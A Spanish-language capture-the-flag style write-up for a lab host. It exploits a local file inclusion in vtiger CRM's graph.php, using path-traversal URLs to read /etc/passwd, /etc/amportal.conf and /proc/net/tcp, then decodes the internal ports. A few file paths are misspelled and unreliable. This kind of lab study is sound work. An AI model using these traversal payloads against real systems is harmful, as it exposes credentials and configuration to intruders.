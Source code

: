 ```php
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

En este caso el fichero 
```bash
 /etc/amportal.conf 
```
 lo miramos mas tarde y empezamos primero con enumerar informaciones de la maquina.

Le metemos en firefox la url siguiente: "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action"
y podemos ver el fichero.

Vemos que hay multiples usuarios con una 
```bash
 /bin/bash 
```


- fanis
- spamfilter
- asterisk
- cyrus
- mysql
- root

Usamos el LFI para enumerar la maquina

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/net/fib_trie%00&module=Accounts&action
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/net/tcp%00&module=Accounts&action
```

El fib_trie no nos muestra nada pero el tcp nos muestra los puertos internos que estan abiertos. Lo copiamos y lo pegamos en un fichero.
Como los puertos estan representado de forma hexadecimal, tenemos que tratar la data.

```bash
cat data.txt | tr ':' ' ' | awk '{print $3}' | sort -u

python3
>>> 0x0016
22
>>> 0x0019
25
>>> 0x0050
80
...
```

En el caso de un LFI ficheros interessantes podrian tambien ser 
```bash
 /proc/shed_debug 
```
 y 
```bash
 /proc/shedstat 
```
. En este caso no sirbe pero esta
bien tenerlo en cuenta.
